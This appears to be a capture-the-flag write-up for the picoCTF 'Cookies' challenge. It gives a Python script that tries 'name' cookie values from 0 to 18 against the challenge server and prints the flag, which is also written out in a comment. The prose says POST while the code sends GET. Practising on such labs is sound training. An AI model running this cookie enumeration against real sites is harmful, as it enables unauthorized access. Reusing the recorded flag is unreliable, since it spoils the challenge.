 # Cookies

> Solution: `POST` the `/check` page with the value of the cookie `name` set to a value between 1 and 18. I scripted it. 

```python
#!/usr/bin/env python3

import requests
import re
from colorama import Fore

url = "http://mercury.picoctf.net:21485/check"

for i in range(0, 19):
	res = requests.get(url, cookies={"name": str(i)})
	if "picoCTF{" in res.text:
		 flag = re.findall("picoCTF{.*}", res.text)
		 flag = flag[0]
		 print(Fore.GREEN + f"[+] Found the flag with cookie 'name' set to {i}") # picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
		 print(Fore.YELLOW + "[+] Flag: " + flag)

	else:
		print(Fore.RED + "[-] The flag could not be found with cookie 'name' set to ", i)
```